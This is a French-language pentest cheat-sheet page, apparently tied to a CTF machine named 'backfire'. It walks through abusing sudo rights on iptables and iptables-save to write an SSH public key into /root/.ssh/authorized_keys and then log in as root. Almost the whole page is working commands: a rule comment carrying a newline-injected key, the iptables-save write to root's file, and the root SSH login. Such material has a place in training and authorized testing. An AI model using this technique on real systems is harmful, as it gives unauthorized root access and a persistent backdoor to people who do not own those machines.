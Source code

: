 # IPTABLES + IPTABLES-SAVE

Cette technique consiste à détourner deux commandes sudo accessibles (`iptables`, `iptables-save`) pour **injecter une clé SSH dans `/root/.ssh/authorized_keys`**, sans besoin d’accès root direct.

* Cela permet de **créer une backdoor SSH persistante** pour l’utilisateur root sans mot de passe.

***

### <mark style="color:red;">🧪</mark> <mark style="color:red;"></mark><mark style="color:red;">**STEPS**</mark>

***

#### <mark style="color:green;">🔹 1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Lister les commandes sudo disponibles**</mark>

```bash
sudo -l
```

✅ Exemple de sortie :

```
User backfire may run the following commands on backfire:
    (ALL) NOPASSWD: /usr/sbin/iptables, /usr/sbin/iptables-save
```

***

#### <mark style="color:green;">🔹 2.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Générer une paire de clés SSH**</mark>

```bash
ssh-keygen -t ed25519 -f ed_25519
```

✅ Tu obtiens :

* `ed_25519` → **clé privée** (à protéger)
* `ed_25519.pub` → **clé publique** (à injecter)

***

#### <mark style="color:green;">🔹 3.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Utiliser iptables pour injecter la clé publique**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519. user@host'
```
{% endcode %}

***

#### <mark style="color:green;">🔹 4.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Sauvegarder la configuration vers le fichier**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`authorized_keys`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**de root**</mark>

{% code fullWidth="true" %}
```bash
sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```
{% endcode %}

***

#### <mark style="color:green;">🔹 5.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Fixer les permissions de ta clé privée**</mark>

```bash
chmod 600 ed_25519
```

***

#### <mark style="color:green;">🔹 6.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Connexion SSH en tant que root**</mark>

```bash
ssh -i ed_25519 root@<host>
```

```
[Sudo access: iptables, iptables-save]
        |
        v
[iptables --comment → inject SSH pubkey]
        |
        v
[iptables-save → write to /root/.ssh/authorized_keys]
        |
        v
[Connexion SSH → root shell 🔥]
```

***
